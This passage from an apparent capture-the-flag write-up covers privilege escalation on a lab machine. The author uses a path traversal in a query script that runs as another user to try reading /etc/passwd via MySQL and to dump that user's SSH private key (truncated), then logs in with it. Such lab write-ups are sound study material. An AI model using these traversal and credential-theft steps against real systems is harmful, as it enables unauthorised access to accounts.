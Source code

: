 ```bash
www-data@clicker:/tmp$ cat a
Drop Table If Exists test;
Create Table test (text Varchar(256));
Load Data Infile "/etc/passwd" Into Table test FIELDS TERMINATED BY '\n';

www-data@clicker:/tmp$ /opt/manage/execute_query 5 "../../../tmp/a"
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
Drop Table If Exists test
--------------

--------------
Create Table test (text Varchar(256))
--------------
```

I tried to use this to read and write files in SQL. But the MySQL user did not have the required permissions. Then I realized that this was a waste of time. I already had the credentials to the database. I did not need to go through a script to do that.

But the script was running as the user jack, so it could read files that only they had access to. And it displayed the queries it found in the file. I could use that to leak some data.

I used it to read jack's SSH private key.

```bash
www-data@clicker:/tmp$ /opt/manage/execute_query 5 "../.ssh/id_rsa"
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```

I saved the key to a file and tried to connect as jack. It failed at first. I saw that it was missing `-` for the first and last lines. It must have been removed as a comment. I added them back and I was able to connect to the server.

```bash
$ ssh -i jack_id_rsa jack@target
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov 12 04:10:48 PM UTC 2023

  System load:           0.025390625
  Usage of /:            53.4% of 5.77GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             243
  Users logged in:       0
  IPv4 address for eth0: 10.129.66.96
  IPv6 address for eth0: dead:beef::250:56ff:feb0:1365


Expanded Security Maintenance for Applications is not enabled.

```